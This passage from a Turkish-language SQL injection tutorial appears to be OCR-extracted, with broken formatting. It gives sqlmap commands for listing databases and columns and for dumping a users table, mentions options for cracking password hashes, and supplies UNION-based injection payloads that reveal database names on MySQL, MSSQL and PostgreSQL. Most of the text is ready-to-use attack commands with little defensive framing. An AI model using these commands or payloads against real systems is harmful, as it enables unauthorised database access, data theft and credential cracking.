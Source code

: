 ```sql
sqlmap -u "https://target.com/product.php?id=5" -D target_db -T users --columns

```
✅ users tablosunun sütunlarını görüntüler.
4️⃣ Tüm verileri çek (döküm al):
```sql
bash
sqlmap -u "https://target.com/product.php?id=5" -D target_db -T users --dump

```
✅ users tablosundaki tüm verileri getirir.
```sql
📌 Eğer veriler şifreli ise --passwords ve --crack parametrelerini kullanarak şifreleri çözmeyi deneyebilirsin.





SQL Veritabanı İsmini Öğrenme
```
1️⃣ SQLmap ile Otomatik Veritabanı İsmini Öğrenme
```sql
SQLmap, SQL Injection testlerini otomatikleştiren güçlü bir araçtır. Eğer bir hedef URL'nin parametre bazlı SQL Injection’a açık olup olmadığını test etmek ve veritabanı ismini öğrenmek istiyorsan:
bash
sqlmap -u "https://target.com/index.php?id=1" --dbs
```
✅ Açıklama:
-u: Hedef URL
```sql
--dbs: Sunucudaki tüm veritabanlarını listelemeye çalışır
```
Eğer POST metodu ile çalışıyorsa, şu şekilde kullanılabilir:
```sql
bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dbs

```
2️⃣ UNION-Based SQL Injection ile Veritabanı İsmini Öğrenme
Union-based SQL Injection, veritabanı sistemine direkt sorgu ekleyerek veritabanı adını döndürmeye çalışır.
MySQL İçin
```sql
sql
' UNION SELECT database(), null, null-- -
```
✔️ Çıktı:
```sql
nginx
```
KopyalaDüzenle
test_database
MSSQL İçin
```sql
sql
' UNION SELECT DB_NAME(), null, null-- -

```
PostgreSQL İçin
```sql
sql
' UNION SELECT current_database(), null, null-- -
```
💡 Eğer kaç sütun olduğunu bilmiyorsan, ORDER BY veya UNION SELECT NULL yöntemiyle tespit edebilirsin.
```sql
```